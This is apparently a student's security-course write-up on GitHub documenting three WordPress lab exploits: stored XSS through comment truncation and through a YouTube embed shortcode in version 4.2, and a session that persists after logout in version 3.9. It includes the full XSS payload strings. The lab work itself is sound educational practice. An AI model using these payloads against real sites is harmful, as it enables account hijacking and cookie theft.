 # CSU
CyberSecurity University Assignments

Exploit 1

Wordpress version: 4.2

Time: 2 hours

Issue

If the text entered into the comment field exceeds 64kb, the input gets truncated in the MySQL database.  This enables XSS capability.

1.  Use commnad with over 64kb worth of chartacters attached:  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

2.  Entered data into comments field on WordPress page

3.  Command executed, in this case, a 'Hello World' pop up alert.

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit1.gif?raw=true" width="800">


Exploit 2

WordPress version 4.2

Time: 1 hour

Issue 

Contributers can embed a YouTube link with code in the link to execute an XSS attack.

1.  Grab embeded video link from YouTube

2.  Created embeded link for WordPress site with link for YouTube video and XXS code for an alert.

[embed src='https://www.youtube.com/embed/7uf7Qn1uFJs\x3csvg onload=alert(document.cookie)\x3e'][/embed]

3.  Place code on vulbnerable page. 

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit2.gif?raw=true" width="800">


Exploit 3

WordPress version 3.9

Time: 1 hour

Issue

Session does not terminate when user logs out of admin console.

1.  Logged into admin console as 'admin'

2.  Captured HTTP traffic through Burp, sent GET request for /wp-admin/profile.php to repeater

3.  Logged out of admin console

4.  Resent captured GET request, session was still active. 

<img src="https://github.com/norcaldre/CSU/blob/master/Exploit3.gif?raw=true" width="800">


